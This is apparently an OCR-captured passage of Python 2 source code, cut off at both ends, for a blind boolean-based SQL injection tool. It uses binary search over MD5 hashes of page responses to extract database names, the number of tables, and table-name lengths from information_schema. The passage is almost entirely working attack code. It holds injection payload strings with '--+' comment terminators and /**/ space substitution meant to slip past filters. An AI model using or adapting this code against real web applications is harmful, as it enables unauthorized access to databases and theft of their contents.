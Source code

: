                 if standard_md5 == mid_md5_html:
                    low = mid + 1
                else:
                    high = mid-1

                str_ascii = (low+high+1)/2
            database_name_one_str = chr(str_ascii)
            sys.stdout.write(database_name_one_str)
            sys.stdout.flush()
        print

def getAllTablesByDb(url,db_name):
    # print "getAllTablesByDb"
    # print url
    # print db_name
    standard_md5 = get_md5_html(url)
    db_name_hex = "0x" + binascii.b2a_hex(db_name)
    # print standard_md5

    low = 1
    high = 200
    while low <= high:  #循环结束后得到表个数
        mid = (low + high)/2;

        payload = "' and ((select count(distinct+table_name) from information_schema.tables where table_schema=%s) > %d)--+" % (db_name_hex,mid)
        payload = "/**/".join(payload.split())
        mid_url = url + payload
        mid_md5_html = get_md5_html(mid_url)

        if standard_md5 == mid_md5_html:
            low = mid + 1
        else:
            high = mid-1

        db_num = (low+high+1)/2

    print "Database security contains %d table:" % db_num
    for index in xrange(0,db_num):  #一次循环输出一个表名
        low = 1
        high = 30

        while low <= high:  #循环结束后得到表名的长度
            mid = (low + high)/2

            payload = "' and (length((select distinct table_name from information_schema.tables where table_schema=%s limit %d,1)) > %d)--+" % (db_name_hex,index,mid)
            # print payload
            payload = "/**/".join(payload.split())
            mid_url = url + payload
            mid_md5_html = get_md5_html(mid_url)

